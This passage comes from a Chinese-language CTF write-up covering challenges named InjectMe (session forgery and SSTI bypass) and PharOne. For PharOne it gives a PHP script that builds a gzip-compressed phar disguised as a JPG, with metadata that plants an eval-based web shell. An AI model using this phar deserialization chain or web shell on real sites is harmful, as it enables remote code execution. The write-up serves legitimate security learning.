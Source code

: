 ![image-20231211142901991](images/64.png)

语法错了就会崩溃

## InjectMe

session伪造+SSTI绕过，给的个dockerfile难得搞了

## PharOne

![image-20231211145032006](images/65.png)

index.php可以上传文件，html注释中有class.php，unlink可以触发phar反序列化

在文件上传时发现对内容__HALT_COMPILER()进行了过滤，可以使用gzip等压缩进行绕过

```
<?php
class Flag{
    public $cmd = "echo \"<?=@eval(\\\$_POST['a']);\">/var/www/html/1.php";
}
@unlink("1.phar");
$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER(); ?>");
$o = new Flag();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
system("gzip 1.phar");
rename("1.phar.gz","1.jpg");
```
